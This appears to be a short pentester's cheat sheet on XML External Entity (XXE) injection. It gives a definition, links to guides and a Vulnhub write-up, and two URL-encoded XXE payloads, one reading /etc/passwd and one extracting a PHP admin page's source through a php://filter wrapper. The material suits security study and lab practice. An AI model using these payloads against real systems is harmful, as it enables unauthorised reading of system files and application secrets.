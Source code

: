 
# XML External Entity XXE Injection

XML External Entity (XXE) injection is a type of attack where an attacker can exploit vulnerabilities in an XML parser to disclose confidential data, execute remote code, or perform other malicious actions. This attack occurs when the XML input contains references to external entities that are processed by the XML parser.
## Guide

* [Exploitation: XML External Entity (XXE) Injection | Depth Security](https://www.depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection/)
* [Vulnhub - scarecrow writeup](https://blog.mzfr.me/vulnhub-writeups/2019-08-24-scare)
* Payloads may have to be double URL encoded
# Payloads

[PayloadsAllTheThings/XXE Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

````
<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'file%3a///etc/passwd'>]><root><user>%26test%3b</user></root>
````
```
auth=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=/var/www/html/scarecrow/personal_secret_admin_page.php'>]><root><user>%26test%3b</user></root>
```
